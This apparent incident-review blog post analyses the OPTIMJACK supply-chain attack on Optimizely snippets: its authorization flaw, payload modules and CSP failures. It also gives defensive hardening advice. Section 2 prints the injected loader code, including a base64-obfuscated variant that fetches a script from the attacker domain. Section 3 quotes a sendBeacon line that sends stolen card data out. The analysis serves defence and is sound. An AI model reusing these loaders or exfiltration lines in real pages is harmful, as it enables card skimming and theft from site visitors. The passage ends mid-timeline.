



# Optimizely Supply Chain Attack: OPTIMJACK & The Synchronous `<head>` Execution Trap

**Daily learning · 18 November 2026 · Incident Review & Supply Chain Deep Dive**

*By Srinivasan Ragothaman ([@rsrini7](https://github.com/rsrini7))*

> **Core idea:** On 16 November 2026, an unauthorized actor exploited an authentication flaw in Optimizely Web Experimentation's onboarding pipeline (incident `ftw0fh9wx43z` [2]), obtaining cross-tenant write access to inject malicious code into customer "Project JavaScript" definitions. Because A/B testing platforms require synchronous `<script>` execution at the top of the `<head>` to prevent visual page flicker, over 188 CDN-hosted snippets across 178 enterprise organizations—including Zoom, the BBC, CNN, Fox News, Salesforce, GitLab, HSBC, Equifax, IKEA, and Ledger—served malware directly from `cdn.optimizely.com` [1]. The modular payload (tracked as **OPTIMJACK** [3]) performed real-time cryptocurrency wallet address swapping, Luhn-validated credit card skimming, DOM screenshotting, and version-targeted iOS WebKit exploit delivery [1, 5, 6].

---

## 1. Foundations: The A/B Testing Paradox and In-Browser Authority

Modern web enterprises rely on digital experimentation platforms to optimize user engagement, test checkout funnels, and dynamically adjust UI components. Among these platforms, Optimizely Web Experimentation is one of the most widely adopted enterprise solutions globally [1, 2].

```
+-----------------------------------------------------------------------------------+
|                        The Modern Browser Execution Reality                       |
|                                                                                   |
|   +--------------------------+             +----------------------------------+   |
|   |   Enterprise Origin      |             |   Third-Party Experimentation    |   |
|   |   (e.g., bbc.com,        |             |   Platform (cdn.optimizely.com)  |   |
|   |    zoom.com, hsbc.com)   |             +-----------------+----------------+   |
|   +------------+-------------+                               |                    |
|                |                                             |                    |
|                | Synchronous <head> Embed:                   |                    |
|                | <script src="cdn.optimizely.com/...js">     |                    |
|                +---------------------------------------------+                    |
|                                       |                                           |
|                                       v                                           |
|   +---------------------------------------------------------------------------+   |
|   |                      Single Browser Runtime Context                       |   |
|   |   - Unrestricted DOM Manipulation (DOM Tree, Form Elements, Canvas)       |   |
|   |   - Storage & Session Access (document.cookie, localStorage)              |   |
|   |   - Global API Control (navigator.clipboard, window.fetch, XHR)           |   |
|   |   - Unmitigated Same-Origin Policy (SOP) Ingress                          |   |
|   +---------------------------------------------------------------------------+   |
+-----------------------------------------------------------------------------------+
```

### The Anti-Flicker Mandate vs. Security Sandboxing

When testing visual variations (such as a redesigned checkout button or a new headline), single-page and server-rendered web applications face the problem of **Flash of Unstyled Content (FOUC)** or layout shift. If an experimentation script loads asynchronously (`async` or `defer`), the visitor's browser parses and paints the control variant (Variant A) first. Once the script resolves seconds later, it mutates the DOM to Variant B, causing visible layout flicker and degrading Core Web Vitals (specifically Cumulative Layout Shift, or CLS).

To prevent this flicker, experimentation vendors explicitly instruct site owners to embed their JavaScript snippet synchronously at the very top of the `<head>` element:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Mandatory vendor placement: synchronous execution before HTML parsing -->
  <script src="https://cdn.optimizely.com/js/6395285578973184.js"></script>
  <meta charset="utf-8">
  <title>Enterprise Portal</title>
  ...
```

By design, a synchronous `<head>` script halts the browser's HTML parser until the external file is fetched, parsed, and executed. This guarantees that DOM mutations apply before the browser's initial layout tree is constructed. However, from an architectural security standpoint, this places unvetted external code in a position of complete origin authority before any defensive monitoring scripts or UI protections can initialize.

### The Same-Origin Policy (SOP) Fallacy

The web security model enforces the Same-Origin Policy (SOP) across separate documents, iframes, and cross-origin fetch requests. However, `<script>` tags are intentionally exempt from cross-origin boundaries. When an origin (such as `zoom.com` or `bbc.co.uk`) includes a script from `cdn.optimizely.com`, the browser executes that code **within the security context of the host origin**.

The external script possesses:
1. **Unrestricted DOM Access:** Full capability to read and rewrite text, alter hyperlinks, append event listeners, and inspect form inputs.
2. **Credential and Storage Ingress:** Ability to read all cookies not explicitly flagged with `HttpOnly`, as well as `localStorage` and `sessionStorage`.
3. **API Interception:** Authority to overwrite native browser primitives (`window.fetch`, `XMLHttpRequest.prototype.open`, `navigator.clipboard.writeText`).
4. **Perimeter Firewall Invisibility:** Because the client browser fetches the asset directly from the third-party CDN over an encrypted TLS connection, corporate web application firewalls (WAFs) protecting the host origin never inspect the payload.

### Incident Parties and Technical Terminology

| Party | Role and Impact in this Incident |
|---|---|
| **Optimizely** | Enterprise experimentation provider. Suffered an onboarding API flaw (incident `ftw0fh9wx43z` [2]) allowing an attacker to inject arbitrary code into customer Project JavaScript fields. |
| **Affected Enterprises** | Over 178 organizations (including BBC, Zoom, CNN, Fox News, Salesforce, GitLab, HSBC, Equifax, IKEA, and Ledger) across 188 CDN-hosted snippet projects [1]. |
| **End-User Visitors** | Millions of website visitors who loaded poisoned snippets into their browsers on 16 November 2026, exposing clipboards, cards, and unpatched mobile devices [1, 3]. |
| **Report URI (Scott Helme)** | Security research team that detected the mass injection, analyzed 1,611 customer snippets, tracked on-chain crypto theft, and documented CSP failure modes [1]. |
| **StepSecurity & Threat Intel** | Security firms that reverse-engineered the payload (dubbed **OPTIMJACK** [3]), traced precursor campaigns [4], and published indicators of compromise (IoCs). |

| Term | Technical Meaning in this Incident |
|---|---|
| **Project JavaScript (`projectJS`)** | An Optimizely configuration feature allowing customers to define global JavaScript routines that the platform bundles into their compiled CDN snippet [1, 2]. |
| **OPTIMJACK** | Threat intelligence designation for the modular multi-purpose JavaScript malware family injected into Optimizely snippets [3]. |
| **Cryptocurrency Clipper** | Malware that monitors clipboard events or DOM contents and swaps legitimate destination wallet addresses with attacker-controlled addresses [1, 3]. |
| **Digital Card Skimmer (Magecart)** | Client-side JavaScript injected into checkout flows to intercept credit card Primary Account Numbers (PANs), CVVs, and expiration dates [1, 7]. |
| **Subresource Integrity (SRI)** | W3C standard allowing browsers to verify that a fetched file matches a pre-computed cryptographic digest (e.g., `sha384-...`). |
| **Content Security Policy (CSP)** | HTTP response header specifying authorized domains for script execution (`script-src`), outbound connections (`connect-src`), and frames (`frame-src`). |
| **Coruna & DarkSword** | High-tier iOS exploit chains delivering WebKit remote code execution, PAC (Pointer Authentication Code) bypass, and kernel escalation against unpatched Apple devices [5, 6]. |

---

## 2. Deep Technical Mechanism: The Ingestion Flow & Payload Anatomy

The attack on 16 November 2026 did not stem from an infrastructure breach at the BBC, Zoom, or HSBC. It was an upstream multi-tenant platform compromise that cascaded downstream through legitimate Content Delivery Network (CDN) channels [1, 2].



### Upstream Authorization Vulnerability (`ftw0fh9wx43z`)

Optimizely Web Experimentation projects are defined within customer accounts. Each project has a unique numerical identifier (`<project_id>`) that compiles into a statically served CDN file located at:

```
https://cdn.optimizely.com/js/<project_id>.js
```

Within the project configuration dashboard, Optimizely exposes an optional field known as **Project JavaScript** (`projectJS`). Code written here executes globally across every page on which the snippet is loaded, before experiments are evaluated.

According to disclosures from Optimizely (incident `ftw0fh9wx43z` [2]) and independent researchers [1, 3], the threat actor discovered an authorization vulnerability in the platform's account onboarding and signup API workflow. This flaw allowed an authenticated user to bypass tenant isolation boundaries, escalate privileges across unrelated organization accounts, and programmatically overwrite the `projectJS` configuration of hundreds of enterprise projects.

Optimizely's build pipeline treated these modifications as authorized dashboard edits. The build servers recompiled the project bundles, attached valid digital signatures and TLS certificates, and propagated the poisoned files to Akamai and Cloudflare CDN edge nodes [1].

### Precursor Campaign Waves (September – November 2026)

Threat intelligence analysis by Hudson Rock [4], StepSecurity [3], and Report URI [1] revealed that the 16 November attack was the culmination of an escalating campaign:
1. **17 September 2026:** An injector script associated with the domain `webshell.lol` first surfaced on Turkish websites via a compromised Search Engine Optimization (SEO) "backlink panel" (`linkforge.cc`) [1].
2. **09 November 2026 (17:52 UTC):** Threat actors registered `5vobauua3ojpklx.icu`, configured as an iOS exploit routing proxy [1].
3. **13–16 November 2026:** A precursor wave delivered `webshell.lol/get.js` by poisoning scripts hosted by third-party marketing and analytics providers **Kissmetrics**, **StorifyMe**, and **Minute Media**, impacting domains such as `securitybank.com`, `faz.net`, `smh.com.au`, and `foxsports.com` [1, 4].
4. **16 November 2026 (04:21 UTC):** The first Optimizely injection was detected on the BBC's snippet, initially referencing `webshell.lol` [1]. Within hours, the infrastructure transitioned to custom Command and Control (C2) domains registered that morning (`1688360.cc`).

### The Three Injected Loader Formats

Researchers identified three distinct loader variations injected into customer `projectJS` blocks [1]:

#### Variant 1: Plain Asynchronous DOM Injection
The primary loader inserted a dynamic script element referencing the attacker's delivery server:

```javascript
"projectJS": function(){
  (function(){
    try {
      var s = document.createElement('script');
      s.src = 'https://1688360.cc/track.js';
      s.async = true;
      (document.head || document.documentElement).appendChild(s);
    } catch(e) {}
  })();
}
```

#### Variant 2: Base64 Obfuscation via `atob()`
To evade automated scanning tools and web scrapers performing basic string matching on `1688360.cc`, the attacker deployed an obfuscated loader:

```javascript
"projectJS": function(){
  (function(){
    try {
      var s = document.createElement('script');
      s.src = window.atob('aHR0cHM6Ly8xNjg4MzYwLmNjL3RyYWNrLmpz');
      s.async = true;
      (document.head || document.documentElement).appendChild(s);
    } catch(e) {}
  })();
}
```
When enterprise security teams attempted to clean snippets during the afternoon of 16 November without revoking the attacker's underlying API access, the threat actor re-injected this Base64 variation into accounts such as Smartsheet [1].

#### Variant 3: Direct Inline Payload with `eval()` Fallback
To defeat perimeter network blocks, DNS sinkholes, or restrictive Content Security Policies that blocked script loading from `1688360.cc`, the attacker compiled the entire 30 KB payload directly into `projectJS`, executing it via `eval()` [1].

---

## 3. Dissecting the OPTIMJACK Modular Payload (`track.js`)

The core payload, hosted at `https://1688360.cc/track.js`, was an actively maintained, multi-threaded surveillance and financial theft utility [1, 3]. Between 08:10 UTC and 20:00 UTC on 16 November, researchers recorded **26 distinct builds** of `track.js` [1]. As the attack unfolded, the operator dynamically integrated new attack surfaces, expanded target cryptocurrency wallet lists, and embedded mobile exploit kits [1, 5, 6].



### Module 1: The Cryptographic Address Clipper & Scope Boundaries

The primary revenue-generating module targeted cryptocurrency transactions [1, 3]. Rather than relying on simple static string replacement, the script implemented a real-time DOM listener and clipboard interceptor with rigorous checksum verification.

1. **In-Page Clipboard Hooking:** The script overrode `navigator.clipboard.writeText` and attached listeners to `copy`, `cut`, and selection events within its own window context.
2. **DOM Scanning via `MutationObserver`:** It continuously traversed text nodes, input fields, anchor tags (`<a href="...">`), and payment image elements.
3. **Cryptographic Checksum Validation:** To prevent raising suspicion by injecting invalid addresses that wallets would reject, the payload parsed and validated target addresses across multiple blockchain formats:

```
+---------------------------------------------------------------------------------------+
| Format                | Validation Regex & Algorithm        | Replacement Behavior    |
+-----------------------+-------------------------------------+-------------------------+
| Bitcoin Legacy        | Base58Check (prefix 1, 26-35 chars) | Swapped to attacker BTC |
| Bitcoin SegWit/Taproot| Bech32/Bech32m (prefix bc1)         | Swapped to attacker BTC |
| Ethereum & EVM Chains | 0x[a-fA-F0-9]{40} + EIP-55 Checksum | Swapped to attacker ETH |
| Solana                | Base58 (32-44 characters)           | Swapped to attacker SOL |
| TRON                  | Base58Check (prefix T, 34 chars)    | Swapped to attacker TRX |
| Litecoin & Doge       | Prefix L, M, ltc1, or D             | Swapped to attacker LTC |
+-----------------------+-------------------------------------+-------------------------+
```

> [!NOTE]
> **Browser Sandbox Constraints on Clipboard Hijacking:**
> When a user copied an address displayed on or interacted with in a compromised page (e.g., invoice portals, support widgets, or exchange interfaces), the hooked in-page listeners intercepted the action and wrote the attacker's substituted address into the clipboard buffer. Additionally, if an authenticated user pasted an address into input fields on the compromised page or triggered client-side transaction forms, in-page event handlers dynamically replaced the string in-flight.
> Modern browser security sandboxes strictly prevent background browser tabs from reading or modifying clipboard operations executed exclusively within external, unrelated desktop applications (such as a local IDE or native wallet app) without an explicit focused user gesture; the clipboard hijacking was strictly scoped to interactions routed through the compromised document's runtime context.

### Module 2: Magecart Form & Payment Card Skimmer

At 13:43 UTC, the attacker deployed an update to `track.js` introducing an e-skimming engine [1]. The script attached recursive listeners to all `<form>` elements and monkey-patched the global `window.fetch` and `XMLHttpRequest.prototype.send` APIs.

```javascript
// Conceptual representation of the Luhn mod-10 evaluation used in OPTIMJACK
function validateLuhn(pan) {
  let sum = 0;
  let shouldDouble = false;
  for (let i = pan.length - 1; i >= 0; i--) {
    let digit = parseInt(pan.charAt(i), 10);
    if (shouldDouble) {
      digit *= 2;
      if (digit > 9) digit -= 9;
    }
    sum += digit;
    shouldDouble = !shouldDouble;
  }
  return (sum % 10) === 0;
}
```

* **Data Harvesting:** The script scanned input fields matching patterns for credit card numbers (13–19 digits validating against Luhn), expiration months/years, and 3-to-4 digit CVVs [1, 7].
* **Exfiltration Mechanism:** Once a complete card profile was harvested, the script used `navigator.sendBeacon('https://1688360.cc/card.php', data)` to exfiltrate the payload asynchronously, ensuring delivery even if the user immediately navigated away from the checkout page.
* **Hosted Payment Iframe Immunity:** Sites utilizing modern cross-origin hosted payment fields (such as Stripe Elements or Adyen iframes) remained safe from card scraping [1]. Because browser sandboxes prevent a script in the parent window from inspecting or accessing the internal DOM of a cross-origin `<iframe>`, card details typed into isolated iframes were inaccessible to `track.js`. Websites that rendered raw payment inputs directly on their parent domain were fully exposed.

### Module 3: Session Data Siphoning & Viewport Reconstruction

When a cryptocurrency address swap occurred or a target payment form was engaged, the payload triggered an exfiltration beacon to `https://1688360.cc/hit.php` [1]:
* **URL & Referrer:** Full browser address bar state including query parameters.
* **Cookie Harvesting:** Direct extraction of `document.cookie`. While cookies marked with the `HttpOnly` flag are invisible to JavaScript, all client-accessible session tokens, user IDs, and analytics tokens were siphoned.
* **DOM Canvas Rendering:** The payload dynamically injected `html2canvas.min.js`, constructing an off-screen bitmap screenshot of the active browser viewport [1]. This allowed the attacker to visually confirm the victim's account balance, name, and visual layout.

### Module 4: Device-Targeted iOS Exploit Router (Coruna & DarkSword)

One of the most concerning aspects of the OPTIMJACK campaign was its integration of high-grade mobile browser exploit chains targeting Apple devices [1, 5, 6]. When `track.js` detected an iOS or iPadOS User-Agent, it imported a secondary script (`boot.js`) hosted across bulletproof `.icu` domains (`5vobauua3ojpklx.icu` and `eil786npto9u5bq.icu`).



The script inspected the device's operating system version and spawned a hidden, full-screen `<iframe>` routing to specific exploit chains [1]:
* **iOS 13.0 – 17.x:** Routed to `/A8/` and `/JIUJIU888/index.js`, delivering the **Coruna** exploit kit [1, 5]. Report URI attributes the loader match to Coruna samples previously analyzed by Google Threat Intelligence; the earlier Google report describes Coruna but does not itself document this Optimizely incident.
* **iOS 18.0 – 18.6:** Routed to `/B9/`, `/D11/`, and `/D12/`, delivering the **DarkSword** exploit chain targeting WebKit memory corruption vulnerabilities [6].
* **Targeted Reload Loop:** For devices running iOS 18.6 or earlier, the script triggered `window.location.reload()` every 60 seconds, repeatedly forcing Safari to reload and maximize the likelihood of a successful heap spray or race condition [1].
* **Exploit Patch Thresholds:** The malware's internal source code comments explicitly stated that iOS 18.7.3 and later, as well as iOS 26.3 and later, were patched against the underlying vulnerabilities, causing the kit to fall back to passive device fingerprinting (`/C10/`) [1, 5, 6].

---

## 4. The Content Security Policy (CSP) Failure Modes

Following the incident, Report URI performed a comprehensive telemetry audit across **256 affected enterprise domains**, evaluating how their deployed Content Security Policies interacted with the payload requirements [1].

### Reconciling Survey Data: Total Crawled vs. Classified Sample

In the primary investigation published by Report URI [1], 256 hosts were crawled. Of these, **159 enterprise hosts** yielded classified, conclusive evaluation results against the payload's execution vectors, while the remaining 97 hosts were unclassified (due to unreachable endpoints, blocking crawlers, or ambiguous multi-policy configurations):

```
+-----------------------------------------------------------------------------------------------+
| Result Category                      | Hosts (Classified N=159)   | Share of Total Crawled (N=256) |
+--------------------------------------+----------------------------+--------------------------------+
| No CSP at all                        | 68 hosts (42.8%)           | 26.6%                          |
| CSP Allowed Payload & Data Theft     | 50 hosts (31.4%)           | 19.5%                          |
| Partial: connect-src Blocked Exfil   | 17 hosts (10.7%)           |  6.6%                          |
| Payload Blocked (Strict script-src)  | 24 hosts (15.1%)           |  9.4%                          |
| Unclassified / Ambiguous Responses   | 97 hosts (N/A)             | 37.9%                          |
+--------------------------------------+----------------------------+--------------------------------+
| Total Crawled Sample                 | 159 classified / 256 total | 100.0%                         |
+--------------------------------------+----------------------------+--------------------------------+
```

> [!NOTE]
> This reconciliation explains why Report URI reported that **"24 (15%)"** of organizations blocked the payload [1]: the 15.1% metric represents the proportion of the 159 classified hosts ($24 / 159 \approx 15.1\%$), whereas against the total crawl of 256 enterprise endpoints, the 24 fully protected hosts represent **9.4%**.

### The Three Critical Policy Flaws

1. **The Origin Whitelist Fallacy:**
   Many enterprise policies contained explicit domain allowlists:
   ```http
   Content-Security-Policy: script-src 'self' https://cdn.optimizely.com;
   ```
   This configuration offered zero defense against the attack [1]. The malicious loader originated directly from `https://cdn.optimizely.com` under Optimizely's valid TLS certificate. Once loaded, the script executed inside the origin.

2. **The `'strict-dynamic'` Propagation Trap:**
   Under CSP Level 3, `'strict-dynamic'` lets a nonce- or hash-authorized script load child scripts:
   ```http
   Content-Security-Policy: script-src 'nonce-r4nd0m' 'strict-dynamic';
   ```
   In a CSP3 browser, this policy only trusts the Optimizely snippet if its `<script>` element carries the matching nonce or hash. If that trusted snippet creates a child script for `https://1688360.cc/track.js`, `'strict-dynamic'` propagates trust to the child [1, 9]. Without a nonce- or hash-authorized root, this policy blocks the Optimizely script itself.

3. **The Mandatory `'unsafe-eval'` Recommendation:**
   Optimizely's official product documentation advises customers to include `'unsafe-eval'` in their `script-src` directive to support dynamic client-side experiment variations [1, 2]. For organizations that blocked `1688360.cc` in their `script-src`, the attacker's third loader variant (the inline payload evaluated via `eval()`) successfully bypassed the restriction. At institutions like HSBC, `connect-src` successfully blocked external telemetry exfiltration, but the in-memory address clipper ran unimpeded due to `'unsafe-eval'` [1].

---

## 5. Production Implementations & Defensive Engineering

Securing single-page web applications against compromised third-party dependencies requires a layered defense model: constrain script and network loading, isolate integrations where the product allows it, and collect browser-side telemetry.

### 1. Hardened CSP Level 3 Configuration

To defeat both dynamic loaders and inline fallback execution, organizations must eliminate `'unsafe-eval'`, restrict child script inheritance, and enforce strict, explicit destination boundaries on all outbound communication channels [1, 7].

```http
Content-Security-Policy:
  default-src 'none';
  script-src 'self' 'nonce-e4b9c1a8f72d' https://cdn.optimizely.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  font-src 'self';
  connect-src 'self' https://api.enterprise.com https://log.optimizely.com;
  frame-src 'self' https://js.stripe.com https://checkout.adyen.com;
  object-src 'none';
  base-uri 'none';
  form-action 'self';
  report-to csp-endpoint;
Reporting-Endpoints: csp-endpoint="https://api.enterprise.com/reports/csp"
```

> [!IMPORTANT]
> If a vendor requires `'unsafe-eval'`, treat it as a reviewed exception and scope it narrowly. A cross-origin sandboxed iframe can isolate a UI integration designed around a narrow message interface. A Web Worker can reduce direct DOM access for worker-compatible computation, but it still needs network egress controls. Avoid granting `'unsafe-eval'` broadly to a site's general script policy.

### 2. Runtime Wrappers Are Not a Security Boundary

An in-page wrapper around `navigator.clipboard` or `fetch` can interfere with a specific script technique, but it cannot revoke the authority of other JavaScript running in the same page. A script with that authority can use other APIs, inspect the DOM directly, or access an unwrapped primitive. Likewise, `data-html2canvas-ignore` is a convention honored by `html2canvas`, not a browser access control. Treat these techniques as narrow diagnostics or compatibility tripwires, not as production containment.

| Control | What it can do | What it does not guarantee |
|---|---|---|
| Content Security Policy [9] | Restrict script sources, inline execution, and network destinations. | It cannot distinguish safe bytes from malicious bytes served by an allowed script origin. |
| Cross-origin sandboxed iframe [11] | Isolate an integration that can work through a narrow message interface. | It is not a drop-in for a vendor script that needs direct access to the host page's DOM. |
| Web Worker [10] | Run computation without direct access to the document DOM. | It does not block network requests; a DOM bridge exposes whatever capabilities the bridge implements. |
| Edge reverse proxy | Inspect, pin, or hold an upstream artifact before serving it. | It does not isolate the script after the browser executes it in the page. |

Choose the control that matches the threat boundary. If vendor code must manipulate the host DOM, review and constrain the delivered artifact and its network capabilities; do not rely on page JavaScript to sandbox code that already has page-origin privileges.

### 3. CSP Reporting & Limited DOM Mutation Telemetry

PCI DSS v4.0 Requirements 6.4.3 and 11.6.1 cover payment-page script authorization and integrity, plus detection of unauthorized changes [7]. The listener below is an illustrative telemetry hook, not a complete implementation of either requirement.

In-page Content Security Policy violations are captured via the **`securitypolicyviolation` DOM event** [9]. Out-of-band violation reports can be sent by the browser using the Reporting API when the response configures an endpoint [9]:

> [!WARNING]
> The `MutationObserver` below reports unexpected DOM insertions after they occur; it cannot undo code that already executed. It also allows `cdn.optimizely.com`, so it will not identify malicious code served from that compromised-but-allowed origin. Use it only as telemetry for unexpected follow-on tags, alongside CSP enforcement and upstream artifact controls.

```javascript
/**
 * PCI DSS 11.6.1 Tamper Detection & securitypolicyviolation Listener
 */
(function initScriptIntegrityMonitor() {
  'use strict';

  // 1. Capture Content Security Policy violation events directly in-page
  document.addEventListener('securitypolicyviolation', (event) => {
    // Send telemetry via sendBeacon to ensure transmission during page unloads
    const payload = JSON.stringify({
      eventType: 'SECURITY_POLICY_VIOLATION',
      blockedURI: event.blockedURI,
      violatedDirective: event.violatedDirective,
      effectiveDirective: event.effectiveDirective,
      originalPolicy: event.originalPolicy,
      sample: event.sample ? event.sample.substring(0, 100) : '',
      disposition: event.disposition, // 'enforce' or 'report'
      sourceFile: event.sourceFile,
      lineNumber: event.lineNumber,
      columnNumber: event.columnNumber,
      timestamp: new Date().toISOString()
    });

    navigator.sendBeacon('/api/security/csp-telemetry', payload);
  });

  // 2. Monitor DOM injections of unauthorized script or iframe tags in real time
  const domWatcher = new MutationObserver((mutations) => {
    for (const mutation of mutations) {
      for (const node of mutation.addedNodes) {
        if (node.tagName === 'SCRIPT' || node.tagName === 'IFRAME') {
          const source = node.src || 'inline';
          const authorizedPrefixes = [
            'https://cdn.optimizely.com/',
            'https://js.stripe.com/',
            window.location.origin
          ];

          const isAuthorized = authorizedPrefixes.some(prefix => source.startsWith(prefix));
          if (!isAuthorized) {
            console.error(`[Tamper Alert] Unauthorized ${node.tagName} detected: ${source}`);
            // Remove node from DOM immediately
            node.remove();

            // Dispatch high-priority security telemetry
            fetch('/api/security/tamper-alert', {
              method: 'POST',
              headers: { 'Content-Type': 'application/json' },
              body: JSON.stringify({
                tag: node.tagName,
                source: source,
                html: node.outerHTML?.substring(0, 200),
                location: window.location.href,
                timestamp: Date.now()
              }),
              keepalive: true
            }).catch(() => {});
          }
        }
      }
    }
  });

  domWatcher.observe(document.documentElement, { childList: true, subtree: true });
})();
```

---

## 6. Impact, Real-World Edge Cases & Gotchas

```
+----------------------------------------------------------------------------------------------------+
| Common Claim                          | Technical Reality                                          |
+---------------------------------------+------------------------------------------------------------+
| "The BBC, Zoom, and CNN had their     | False. Target enterprise perimeter servers and internal    |
| primary infrastructure hacked."       | databases were never compromised; the attack was entirely  |
|                                       | executed client-side via a third-party CDN dependency [1]. |
+---------------------------------------+------------------------------------------------------------+
| "Content Security Policy (CSP)        | False. Standard domain allowlists (`cdn.optimizely.com`)   |
| automatically prevents script         | authorized the malicious payload directly. Additionally,   |
| hijacking."                           | 'strict-dynamic' and 'unsafe-eval' bypassed restrictions.  |
+---------------------------------------+------------------------------------------------------------+
| "Subresource Integrity (SRI) would    | Impractical. Experimentation snippets change dynamically   |
| have cleanly resolved this issue."    | across tests and segments; static SRI hashes break         |
|                                       | legitimate experimentation workflows without custom proxy. |
+---------------------------------------+------------------------------------------------------------+
| "Hosted payment gateways (Stripe,     | True. Browser cross-origin iframe security boundaries      |
| Adyen) protected credit card data."   | prevented track.js from accessing raw PANs inside iframes; |
|                                       | only native form fields on the parent domain were exposed. |
+---------------------------------------+------------------------------------------------------------+
| "Desktop browsers on macOS/Windows    | False. Desktop users were immune to Coruna/DarkSword, but  |
| were completely immune to the attack."| their cryptocurrency clipboards and cards were fully hit.  |
+---------------------------------------+------------------------------------------------------------+
```

### The Subresource Integrity (SRI) Dilemma

Security engineers frequently propose Subresource Integrity (SRI) as the ultimate solution for third-party script tampering:

```html
<script src="https://cdn.example.com/lib.js" integrity="sha384-..." crossorigin="anonymous"></script>
```

While SRI works effectively for static, immutable libraries (e.g., a specific release of `react.production.min.js`), it breaks down completely when applied to dynamic experimentation engines. Optimizely snippets recompile automatically whenever a marketer launches an experiment, changes audience targeting rules, or pauses a test variant [1, 2]. If an engineering team hardcodes an SRI hash, every minor marketing change invalidates the hash, causing browsers to reject the script and silently failing the experiment.

#### The Architectural Solution: Reverse-Proxy Ingestion with Hash Verification
To safely employ SRI on dynamic dependencies, organizations must transition to an automated edge proxy pattern:

```
[Marketer Updates Experiment]
        |
        v
[Optimizely Origin CDN]
        |
        v
[Enterprise Edge Worker (Cloudflare / Fastly)]
        |-- 1. Fetch updated snippet from Optimizely
        |-- 2. Run AST static analysis and pattern scanning (IoC check)
        |-- 3. Calculate SHA-384 hash and sign release manifest
        |-- 4. Cache internally on company domain (cdn.enterprise.com/exp.js)
        v
[Visitor Browser Loads Script with Matching Dynamic SRI Nonce]
```

---

## 7. Incident Timeline & Current State

```
+---------------------------------------------------------------------------------------+
| Date / Time (UTC)   | Milestone Event                                                 |
+---------------------+-----------------------------------------------------------------+
| 17 Sep 2026         | webshell.lol injector first detected on Turkish web properties.  |
| 09 Nov 2026 (17:52) | 5vobauua3ojpklx.icu registered as mobile exploit routing node.  |
| 13–16 Nov 2026      | Kissmetrics, StorifyMe, and Minute Media scripts poisoned.      |
| 16 Nov 2026 (02:21) | Last clean urlscan archive capture of the BBC Optimizely snippet.|
| 16 Nov 2026 (04:21) | First Optimizely compromise observed loading webshell.lol.     |
